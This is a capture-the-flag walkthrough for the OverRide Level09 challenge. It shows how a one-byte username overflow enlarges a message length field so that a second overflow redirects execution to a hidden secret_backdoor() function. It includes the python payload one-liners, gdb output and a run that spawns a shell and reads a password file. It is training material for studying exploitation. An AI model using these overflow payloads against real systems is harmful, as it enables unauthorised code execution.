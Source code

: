 
# Walkthrough

**Main** : 
The Level09 challenge involves exploiting a binary that takes user input for a username and a message. The goal is to execute the `secret_backdoor()`  this function  uses fgets to read input from the user, and it calls the system function to execute the provided command.

The function `secret_backdoor()`  is not part of the normal program execution flow, so the objective is to redirect the program to execute this function.

Two functions, `set_username()` and `set_msg(),` are responsible for processing the input strings and storing them in the s_message structure.

`set_msg`() uses `strncpy()` with the s_message->len as the size parameter.
set_username() uses a loop to copy characters one by one from the local buffer to s_message->username.

The `set_username()` function copies the characters in a loop that repeats 41 times, indicating that a 1-byte overflow is possible. This allows us to overwrite the first byte of s_message->len.

**Vunerability:**
The `set_username()` function copies the characters in a loop that repeats 41 times, indicating that a 1-byte overflow is possible. This allows us to overwrite the first byte of s_message->len to make overflow while  `set_msg()` uses `strncpy()` with the s_message->len

**Solution idea:**

In the context of this challenge, by modifying the length of the message using the `'\xff'` byte, We can manipulate the program's execution flow and potentially redirect it to execute `secret_backdoor()` function, which they weren't supposed to be able to access.
 This demonstrates how a simple buffer overflow and manipulation of data can lead to a security vulnerability.

To exploit the program, the address of the `secret_backdoor()` function needs to be obtained.
The solution constructs a payload that consists of 40  characters, followed by a single byte ('0xff') to overwrite the first byte of s_message->len.
Then, it appends additional  characters to reach the EIP save location and replaces it with the desired address of   `secret_backdoor()`  and finally, it appends '/bin/sh' to the payload.


**Process to exploit :**
>   1. ****Exploiting s_message->len:** **
>   2. **Buffer overflow Offset**
>   2. **Ruuning  Payload**



## Step 1
### Exploiting s_message->len

By manipulating the username input in the set_username function, it's possible to overflow the s_message->len field. The overflow of a single byte allows altering the size parameter for strncpy in set_msg.
The goal is to set s_message->len to a larger value (up to 255) to enable the buffer overflow in set_msg.

**Structure**
	the len_message variable follows the username variable. 
	The layout in memory for your s_message structure is as follows:

	message (140 bytes)
	username (40 bytes)
	len_message (4 bytes for an integer)
So, after the username data in memory, the next address will be the address for the len_message variable.

**First  step of construct payload:**
- 40 characters '\x90' : To fill the username buffer and reach the s_message->len field.
- '\xff': To overflow the s_message->len field with a large value (255).
-	`python -c 'print 40 * "\x90" + "\xff"`


## Step 2
### Buffer overflow Offset

After testing and observing with pattern buffer overflow pattern we see that we have an offset of 200 it perfect, it was just what we wanted.

```
level09@OverRide:~$ python -c 'print "\x90" * 40 + "\xff" + "\n" + "\x90" * 200 + "\x8c\x48\x55\x55\x55\x55\x00" + "\n"' | ./level09
--------------------------------------------
|   ~Welcome to l33t-m$n ~    v1337        |
--------------------------------------------
>: Enter your username
>>: >: Welcome, �����������������������������������������>: Msg @Unix-Dude
>>: >: Msg sent!
Segmentation fault (core dumped)
```

**Step  2  of construct payload:**
- 200 '\x90' characters: To reach the return address.



## Step 2
###  Ruuning payload Buffer overflow Offset

**Identifying Vulnerable Function**
There's a `secret_backdoor` function that uses fgets to read input from the user, and it calls the system function to execute the provided command.

- Run the program with the constructed payload to trigger the buffer overflow.
- The return address is overwritten with the address of `secret_backdoor`,
```
(gdb) print secret_backdoor
$4 = {<text variable, no debug info>} 0x55555555488c <secret_backdoor>
```

 We have to convert the address of secret_backdoor to little endian. `0x55555555488c = \x8c\x48\x55\x55\x55\x55\x00\x00`

**Load Payload:** 
```
level09@OverRide:~$ (python -c 'print "\x90" * 40 + "\xff" + "\n" + "\x90" * 200 + "\x8c\x48\x55\x55\x55\x55\x00" + "\n" + "/bin/sh"'; cat) | ./level09
--------------------------------------------
|   ~Welcome to l33t-m$n ~    v1337        |
--------------------------------------------
>: Enter your username
>>: >: Welcome, �����������������������������������������>: Msg @Unix-Dude
>>: >: Msg sent!
cat /cat /home/users/end/.pass
j4AunAPDXaJxxWjYEUxpanmvSgRDV3tpA5BEaBuE

```
